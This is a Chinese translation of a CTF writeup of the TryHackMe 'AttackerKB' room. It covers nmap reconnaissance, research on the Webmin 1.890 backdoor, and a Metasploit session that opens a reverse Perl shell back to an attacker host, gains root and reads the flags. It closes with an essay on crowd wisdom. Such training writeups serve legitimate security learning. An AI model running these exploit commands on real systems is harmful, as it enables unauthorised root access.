





# TryHackMe writeup: AttackerKB

> 原文：<https://infosecwriteups.com/tryhackme-writeup-attackerkb-48cef82cfefa?source=collection_archive---------4----------------------->

AttackerKB 是一个向用户介绍 AttackerKB 项目的房间([“dark star 7471”2020](https://tryhackme.com/room/attackerkb))。它包括一个很容易被利用的“boot2root”机器。但是这个房间主要是关于 AttackerKB 项目——目标机器的存在只是为了展示它有多有用。在本文中，我将获取目标机器的标志，并主要讨论 AttackerKB 项目如何对渗透测试有用。



# 目录一览

1.  程序
2.  讨论
3.  结束事项
4.  尾注
5.  参考

# 程序

在黑客攻击之前，我首先需要定义一个要解决的攻击性安全工程问题。浏览这个房间，它旨在向用户介绍一个 [Rapid7 (n.d.)](https://www.rapid7.com/) 项目 *AttackerKB* ，它将自己描述为“*[一个项目]旨在为整个安全社区捕获、突出和扩展[利用或漏洞的价值]。*[AttackerKB(n . d .)](https://attackerkb.com/about)。此外，需要用户标志和根标志来完成此房间。所以**我的问题是在 AttackKB 平台**的帮助下发现这些标志。

和这些 TryHackMe 房间一样，我修改了`/etc/hosts`以添加`attackerkb.thm`伪域名，并将其重定向到目标机器的动态 IP 地址——每次启动时都会改变。然后，我点击第一个任务右上角的绿色“启动机器”按钮，开始探测系统。

## 探索

我从常规的 [nmap (n.d.)](https://nmap.org/) 扫描开始，以了解目标系统上有哪些服务和端口:

```
**┌──(dna㉿deniers)-[~/attackerkb]
└─$ sudo nmap -sT -A -v -Pn -p- -O -sC -oX tcp_scan.xml attackerkb.thm --max-scan-delay 5s**
[sudo] password for dna: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at [redacted]
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 10:53
Completed NSE at 10:53, 0.00s elapsed
Initiating NSE at 10:53
Completed NSE at 10:53, 0.00s elapsed
Initiating NSE at 10:53
Completed NSE at 10:53, 0.00s elapsed
Initiating Connect Scan at 10:53
Scanning attackerkb.thm [65535 ports]
Discovered open port 22/tcp on attackerkb.thm
Increasing send delay for attackerkb.thm from 0 to 5 due to max_successful_tryno increase to 4
```

当 *nmap* 扫描完成后，我用`xsltproc` Linux 实用程序将它转换成可读的 HTML 格式:

```
**┌──(dna㉿deniers)-[~/attackerkb]
└─$ xsltproc tcp_scan.xml -o tcp_scan.html**
[sudo] password for dna: 

**┌──(dna㉿deniers)-[~/attackerkb]
└─$**
```

图 1 描述了可读 HTML 格式的 *nmap* 输出:



图 1

从这个输出中，我可以得出一些结论:

*   端口 22 上运行着一个 [OpenSSH (v. 7.6p1)](https://www.openssh.com/txt/release-7.6) 服务。
*   端口 10000 上运行着一个 [Webmin (n.d.)](https://www.webmin.com/) 服务。Webmin 服务正在运行其版本为 1.890 的 *MiniServ* 组件。
*   目标系统很可能运行 Ubuntu Linux。

我继续访问 Webmin 服务(在访问安全 HTTP 的 URL 中带有`https://`前缀),并受到以下页面的欢迎(图 2):



图 2

关于目标系统的有用信息可以从 *Webmin* SSL 证书中获知。我继续点击网页浏览器左上方的挂锁图标(图 2a ),出现了如图 3 所示的对话框:



图 3

然后，我继续点击“*【移除例外】*”按钮(图 3a)，出现了一个如图 5 所示的窗口:


图 4

然后，我点击了“*【v】view【c】certificate*”按钮(图 4a)，出现了以下关于目标系统 SSL 证书的信息(图 5):



图 5

从图 5 中，我可以断定系统的主机名就是`source`。这对侦察很有用。

对目标系统的“外观”有了一些基本的了解后，AttackerKB 开始研究探测目标系统和初始访问。我在搜索表单上查找“[w]ebmin”，发现了一个 *password_change.cgi 命令注入*条目( [AttackerKB，n.d.-b](https://attackerkb.com/topics/hxx3zmiCkR/webmin-password-change-cgi-command-injection) )，并看到了许多关于此漏洞的不同评估和评论。从 AttackKB 用户“wvu-r7”那里获得了许多有用的信息，他们说:

> “这是一次供应链攻击[……][t]后门是在默认安装中“可被利用”的版本中引入的。1.890 版本就是钱。之后的任何内容都需要非默认设置。[…] ETA: Metasploit 添加了一个漏洞利用模块。”—[“wvu-r7”(2019)](https://attackerkb.com/assessments/4601b37d-1e68-494e-be8b-c45be7ad424c)

根据这位研究人员的评估，以下几点“很突出”

*   这个漏洞是供应链攻击的结果。
*   Webmin 的 1.890 版本是最容易被利用的“低垂的果实”。
*   [Metasploit (n.d.)](https://metasploit.com/) 具有针对此漏洞的利用模块。

打个比喻来说，我还通过参考与此漏洞相关的其他资源获得了更多的成果。在我看来，最重要的是 [Webmin (n.d.-b)](https://www.webmin.com/exploit.html) 发布的一份声明，声明他们在 2019 年 8 月 17 日获悉了这个零日漏洞，这让我对该漏洞的价值有了一个想法。

## 初始访问

有了一些关于 Webmin 漏洞利用的背景知识，我现在可以继续利用系统获得一个反向外壳。我启动了 Metasploit，然后开始配置和启动这个漏洞:

```
**┌──(dna㉿deniers)-[~/attackerkb]
└─$ sudo msfconsole**

       =[ metasploit v6.1.39-dev                          ]
+ -- --=[ 2214 exploits - 1171 auxiliary - 396 post       ]
+ -- --=[ 618 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Enable HTTP request and response logging 
with set HttpTrace true

**msf6 > use exploit/linux/http/webmin_backdoor**
[*] Using configured payload cmd/unix/reverse_perl
**msf6 exploit(linux/http/webmin_backdoor) > set RHOST attackerkb.thm**
RHOST => attackerkb.thm
**msf6 exploit(linux/http/webmin_backdoor) > set LHOST attacker.thm**
LHOST => attacker.thm
**msf6 exploit(linux/http/webmin_backdoor) > set SSL True**
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
**msf6 exploit(linux/http/webmin_backdoor) > exploit**

[*] Started reverse TCP handler on attacker.thm:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (attacker.thm:4444 -> attackerkb.thm:35440 ) at [redacted] -0500

**#**
```

优秀的

## 后期开发

现在我可以去找旗子了。我将从使用`find`命令搜索用户标志开始:

```
[*] Command shell session 1 opened (attacker.thm:4444 -> attackerkb.thm:35440 ) at [redacted] -0500

**# find / -name user.txt && echo "Finished"**
/home/dark/user.txt
Finished
**# cat /home/dark/user.txt**
[redacted]
**#**
```

现在，我将继续获取根标志。我使用了`id`命令来查看我拥有什么样的特权，结果发现我拥有 root 权限！我不需要运行任何权限提升漏洞，因为我已经在目标系统中拥有最高权限！我可以转储旗帜:

```
**# id**
uid=0(root) gid=0(root) groups=0(root)
**# find / -name root.txt && echo "Finished"**
/root/root.txt
Finished
**# cat /root/root.txt**
[redacted]
**#** 
```

阿洛拉。

# 讨论

这个房间很容易完成，而且这个漏洞几乎太容易配置了。但是由于所涉及的工具和它的主题，它是值得一写的。

*AttackerKB* 可以被视为信息安全社区将社会学家所谓的*群体智慧*付诸实践的一次尝试。这是 first⁴调查的一个现象，高尔顿(1907) 假设当做决定或衡量事物时，许多独立个体的集合，不管他们对主题的知识如何，都优于单个个体的决定。

通常，算术平均值或 median⁵等平均值用于汇总结果。高尔顿通过让农业活动中的许多投机者猜测一头牛的重量来测试这一假设，并得出结论，算术平均值作为聚合函数优于中位数。

群众的智慧并不总是奏效。这里有几个失败的案例研究:

*   一位名叫 Nate Silver 的分析师试图通过汇总许多民意调查来预测美国 2016 年总统大选的结果。他不成功([洛克林 2016](https://scottlocklin.wordpress.com/2016/11/09/my-favorite-photo-of-this-wacky-election/)；[费伯 2018](https://towardsdatascience.com/why-you-should-care-about-the-nate-silver-vs-nassim-taleb-twitter-war-a581dce1f5fc) )。
*   [Taleb et al. (2020)](https://arxiv.org/abs/2007.16096) 批评了“超级预测”(superforecasting)，这是一种类似锦标赛的方法，让个人汇总预测，对厚尾特征进行单点预测。
*   [Snyder (1978)](https://doi.org/10.1111/j.1540-6261.1978.tb02051.x) 证明了即使使用纯种差点技术，比如对最受欢迎的人下注，下注者也不太可能获得净利润。

正如我前面所说的， *AttackerKB* 可以被看作是一种尝试，旨在调用群众的智慧来帮助渗透测试人员、红队队员和安全防御方的人员做出更好的决策。但是由于这种集体智慧的局限性，在阅读 *AttackerKB* 上的内容时，保持适度的怀疑是一个好主意。

在我这个**非专家**看来，最好的办法是采纳他们的建议或主张，并在一个独立的实验室里进行评估。对主题的理解很重要。

# 结束事项

本文将 AttackerKB 项目作为一个工具进行介绍，在许多其他工具中，它可以帮助在渗透测试和红队参与中做出更好的决策。但尽管如此，它不能代替对主题的理解，也不能代替对漏洞利用可靠性的测试。

## 插头

TryHackMe 用户 [Horshark (n.d.)](https://tryhackme.com/p/Horshark) 发布了一个命令行工具，从 AttackerKB 抓取信息并输出到终端。对于有兴趣使用它的人，可以从这里下载:

[](https://github.com/horshark/akb-explorer) [## GitHub - horshark/akb-explorer:一个搜索 AttackerKB 的命令行工具。

### 搜索 AttackerKB 的命令行工具。没有太多要做的，你只需要克隆回购和安装所需的…

github.com](https://github.com/horshark/akb-explorer) 

对于喜欢我的作品但尚未注册 Medium 会员计划的读者，如果他们能通过我的推荐链接注册，我将不胜感激(这在经济上帮助了我 https://medium.com/membership/@EpsilonCalculus ❤️):[](https://medium.com/membership/@EpsilonCalculus)

此外，对于任何对计算机文章感兴趣的读者，我欢迎他们查看我收集的技术文章，在这些文章中，我主要讨论计算的技术方面:


[阿列克谢](https://medium.com/@EpsilonCalculus?source=post_page-----48cef82cfefa--------------------------------)

## 技术报道

[View list](https://medium.com/@EpsilonCalculus/list/technical-writeups-63f8cfbee59c?source=post_page-----48cef82cfefa--------------------------------)43 stories

# 尾注

1.  要了解关于 SSL 证书以及如何使用它们的更多信息，我推荐 [Barrett 等人(2003，第 72–101 页)](https://www.oreilly.com/library/view/linux-security-cookbook/0596003919/)。
2.  想了解更多关于供应链攻击的知识，我推荐[米勒(2013](https://apps.dtic.mil/sti/citations/ADA610495) )。
3.  [Ruef (2016)](https://www.researchgate.net/publication/336838659_Exploit_pricing_-_analysis_of_the_market_in_digital_weapons) 讨论了如何对安全漏洞进行定价。
4.  我可能要走了。其他人告诉我，在高尔顿出现之前的几千年里，亚里士多德一直在研究群众的智慧。但是我找不到任何关于他工作的文件——所以我假设高尔顿是第一个“认真”调查这一现象的人。我鼓励任何读者对研究这一现象的第一个人或一群人进行自己的调查。
5.  高尔顿证明算术平均值是比中位数更好的集合；看他的论文。

# 参考

AttackerKB(未注明)。*关于 AttackerKB* 。2022 年 11 月 19 日检索自:【https://attackerkb.com/about 

AttackerKB(未注明-b)。 *Webmin password_change.cgi 命令注入*。2022 年 11 月 20 日检索自:[https://attackerkb . com/topics/hxx 3 zmickr/webmin-password-change-CGI-command-injection](https://attackerkb.com/topics/hxx3zmiCkR/webmin-password-change-cgi-command-injection)

Barrett，D. J .，Silverman，R. E .和 Byrnes，R. G. (2003 年)。 *Linux 安全食谱*【第一版】。奥赖利媒体公司。

《黑暗之星 7471》(2020)。 *AttackerKB:了解如何利用 AttackerKB 并了解您工作流程中的漏洞利用！* TryHackMe。2022 年 11 月 19 日检索自:[https://tryhackme.com/room/attackerkb](https://tryhackme.com/room/attackerkb)

Faber，I. (2018)。*为什么你应该关心 Nate Silver 与 Nassim Taleb 的 Twitter 之战:两位数据专家怎么会有如此大的分歧*？走向数据科学。2022 年 11 月 20 日检索自:[https://towards data science . com/why-you-should-care-the-Nate-silver-vs-nassim-taleb-Twitter-war-a 581 DCE 1 f 5 fc](https://towardsdatascience.com/why-you-should-care-about-the-nate-silver-vs-nassim-taleb-twitter-war-a581dce1f5fc)

f .高尔顿(1907 年)。人民之声。大自然。存档于:[https://Galton . org/essays/1900-1911/Galton-1907-vox-populi . pdf](https://galton.org/essays/1900-1911/galton-1907-vox-populi.pdf)

霍沙克(未注明)。尝试 HackMe 个人资料。2022 年 11 月 20 日检索自:[https://tryhackme.com/p/Horshark](https://tryhackme.com/p/Horshark)

洛克林，S. (2016 年)。我最喜欢的这场古怪选举的照片。2022 年 11 月 20 日检索自:[https://Scott locklin . WordPress . com/2016/11/09/my-favorite-photo-of-this-wacky-election/](https://scottlocklin.wordpress.com/2016/11/09/my-favorite-photo-of-this-wacky-election/)

Metasploit(未注明)。*渗透测试软件，笔测安全*。2022 年 11 月 20 日检索自:【https://metasploit.com/ 

J. F .米勒(2013 年)。*供应链攻击框架和攻击模式*。国防技术信息中心。链接:[https://apps.dtic.mil/sti/citations/ADA610495](https://apps.dtic.mil/sti/citations/ADA610495)

nmap(未标明)。 *Nmap:网络映射器——免费安全扫描器*。2022 年 11 月 19 日检索自:[https://nmap.org/](https://nmap.org/)

OpenSSH(7.6p 1 版)。*发行说明*。2022 年 11 月 19 日检索自:[https://www.openssh.com/txt/release-7.6](https://www.openssh.com/txt/release-7.6)

Rapid7(未标明)。*网络安全&网络安全解决方案&服务*。2022 年 11 月 20 日检索自:[https://www.rapid7.com/](https://www.rapid7.com/)

Ruef，M. (2016 年)。利用定价——数字武器市场分析。研究之门项目。2022 年 11 月 20 日检索自:[https://www . research gate . net/publication/336838659 _ Exploit _ pricing _-_ analysis _ of _ the _ market _ in _ digital _ weapons](https://www.researchgate.net/publication/336838659_Exploit_pricing_-_analysis_of_the_market_in_digital_weapons)

斯奈德，W. W. (1978)。测试有效市场模型。*在《金融杂志》(第 33 卷第 4 期，第 1109–1118 页)*。威利。[https://doi.org/10.1111/j.1540-6261.1978.tb02051.x](https://doi.org/10.1111/j.1540-6261.1978.tb02051.x)

纽约州塔勒布、纽约州巴雅姆和西里洛出版社(2020 年)。*关于厚尾变量的单点预测(第 1 版)*。arXiv。[https://doi.org/10.48550/ARXIV.2007.16096](https://doi.org/10.48550/ARXIV.2007.16096)

网名(未注明)。2022 年 11 月 19 日检索自:[https://www.webmin.com/](https://www.webmin.com/)

Webmin(未注明)。2022 年 11 月 20 日检索自:[https://www.webmin.com/exploit.html](https://www.webmin.com/exploit.html)

《wvu-r7》(2019)。*Webmin 漏洞利用技术分析。* AttackerKB。2022 年 11 月 20 日检索自:[https://attackerkb . com/assessments/4601 b37d-1e 68-494 e-be8b-c 45 be 7 ad 424 c](https://attackerkb.com/assessments/4601b37d-1e68-494e-be8b-c45be7ad424c)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周时事通讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！